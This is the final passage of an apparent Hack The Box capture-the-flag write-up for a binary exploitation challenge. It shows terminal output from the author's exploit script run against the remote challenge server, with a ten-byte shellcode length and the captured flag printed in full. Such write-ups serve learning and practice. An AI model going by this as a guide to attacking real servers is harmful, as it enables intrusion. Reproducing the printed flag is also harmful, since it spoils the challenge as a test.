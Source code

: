 Voila, we get the flag, let's run the exploit for the remote server:-

```asm
d4mianwayne@oracle:~/Pwning/HackTheBox$ python3 hunting.py 
[+] Opening connection to 165.232.101.10 on port 31335: Done
[*] SHELLCODE LENGTH:  10
[+] FLAG:   b'HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}'
[*] Closed connection to 165.232.101.10 port 31335
```


And done!


That was quite a nice ride, hope you learned something :)


